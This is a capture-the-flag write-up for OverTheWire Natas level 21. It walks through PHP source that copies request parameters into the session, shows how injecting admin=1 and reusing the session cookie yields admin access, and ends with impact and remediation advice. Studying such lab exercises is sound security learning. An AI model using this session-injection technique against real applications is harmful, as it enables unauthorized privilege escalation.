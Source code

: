 # [Over The Wire (natas)] – [[Platform](http://natas21.natas.labs.overthewire.org/)] – [09/29/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [21]
- Difficulty: [Easy]

## Tools Used
- Chromium Browser
- Burp Suite (proxy + repeater)

## Login
1. Logged in with credentials:
   - **Username**: `natas21
   - **Password**: `XXXXXX`
  
2. Screenshot:
   ![alt text](image-30.png)
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas21.natas.labs.overthewire.org/index-source.html`

   ![alt text](image-31.png)

   - this prompted that I should check the sourcecode by clicking the link `http://natas21-experimenter.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content

```php
      function print_credentials() { /* {{{ */
         if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
         print "You are an admin. The credentials for the next level are:<br>";
         print "<pre>Username: natas22\n";
         print "Password: <censored></pre>";
         } else {
         print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
         }
      }
```
   - This checks for the admin key value in Session and if that value is equal to 1. If so, then flag displayed.


```php
      session_start();
      print_credentials();   
```
   - This initiates a session and prints credentials. 


```php
      session_start();

      // if update was submitted, store it
      if(array_key_exists("submit", $_REQUEST)) {
         foreach($_REQUEST as $key => $val) {
         $_SESSION[$key] = $val;
         }
      }  
```
   - This checks if there is a key of "submit" in the request. If so, for each key and value pair you would assign in the session the value into the array. 

 
```php
      if(array_key_exists("debug", $_GET)) {
         print "[DEBUG] Session contents:<br>";
         print_r($_SESSION);
      }   
```
   - If the key "debug" present in the GET request you would print out debug messaging.


```php
      $validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
      $form = "";   
```
   - Instantiate validkeys for the default values and form as empty string. 


```php
      $form .= '<form action="index.php" method="POST">';
      foreach($validkeys as $key => $defval) {
         $val = $defval;
         if(array_key_exists($key, $_SESSION)) {
            $val = $_SESSION[$key];
         } else {
            $_SESSION[$key] = $val;
         }
         $form .= "$key: <input name='$key' value='$val' /><br>";
      }

```
   - Append to the form variable the form html element for POST and action set to "index.php". Then the value variable instantiated to the default value if the key exists in the Session then update the variable to that value otherwise set that key-value in the Session array to the default. We concatenate each key and HTML input element with the name and value assigned separated by a linebreak.


```php
      $form .= '<input type="submit" name="submit" value="Update" />';
      $form .= '</form>';

      $style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
      $example = "<div style='$style'>Hello world!</div>";  
```
   - We concatenate to the form variable the HTML input element for submit and value of "Update". We then instantiate a style variable with the background color, text-alignment, and font-size as per each value in the Session array. We also instantiate an example variable to a simple div with the previously stated styling, the displaying text is "Hello world!".


---
  

     
4. Steps taken (Broken Access Control):

   1. First I wanted to check what was the debugged value I was sending to the backend. Submitting the form in the second instance of the app to endpoint `/index.php?debug`.

   ```html
      [DEBUG] Session contents:<br>Array
      (
         [debug] => 
         [align] => center
         [fontsize] => 100%
         [bgcolor] => yellow
         [submit] => Update
      )
   ``` 

   2. This indicated that the param is taking in as a key-value pair and therefor should be able to injected as `admin=1` and included as endpoint `/index.php?admin=1&debug` 
   ```html
         [DEBUG] Session contents:<br>Array
         (
            [admin] => 1
            [debug] => 
            [align] => center
            [fontsize] => 100%
            [bgcolor] => yellow
            [submit] => Update
         )
   ```

   3. The next step was to check if I was logged in correctly in the first instance of the app by updating the PHPSESSID to equal the second instance. 
   
   4. This produced the flag.
   

---

🔑 **Why this works**: 

   - The application blindly copies all request parameters into $_SESSION (foreach($_REQUEST as $key => $val) { $_SESSION[$key] = $val; }), allowing an attacker to set arbitrary session keys (e.g. admin=1).

   - The code checks session state ($_SESSION["admin"] == 1) for authorization, so an attacker who can set that key gains admin privileges (privilege escalation / authorization bypass).

   - A debug endpoint (?debug) prints session contents, confirming the injected keys and easing exploitation.

   - Session fixation is possible: reusing a session cookie from one app instance in another lets the attacker make that session appear privileged to the target instance.

   - There is no validation, sanitization, or server-side enforcement of which session keys are allowed or what values are permitted.

---

💥 **Impact**

   - **Unauthorized privilege escalation** — an attacker can become “admin” and access sensitive data (here, the next level credentials).

   - **Information disclosure** — debug output reveals session internals and aids exploitation.

   - **Session fixation / account takeover** — attacker-controlled session IDs can be reused to hijack or escalate sessions.

   - **Low attack complexity, high reliability** — trivial HTTP requests suffice, making exploitation easy to automate and scale.

   - **Wider system risk** — if similar session handling exists elsewhere, attacker could manipulate other application behavior or access additional functionality.

---
  
🛠️ **Remediation**

   - Never copy $_REQUEST (or user input) directly into $_SESSION. Only set session values on the server after explicit, validated operations.

   - Whitelist allowed session keys and validate values/types before storing (e.g., only accept align, fontsize, bgcolor from the form).

   - Remove or restrict debug endpoints — do not print session contents in production; require authentication or remove entirely.

   - Regenerate session ID on privilege changes (session_regenerate_id(true)) and bind sessions to additional context (IP or user-agent) where appropriate.

   - Harden session cookies: set HttpOnly, Secure, and appropriate SameSite attributes.

   - Perform server-side authorization checks (never rely solely on client-set flags); use a separate, server-controlled authorization mechanism.

   - Log and monitor suspicious session-setting behavior and unexpected session keys being introduced.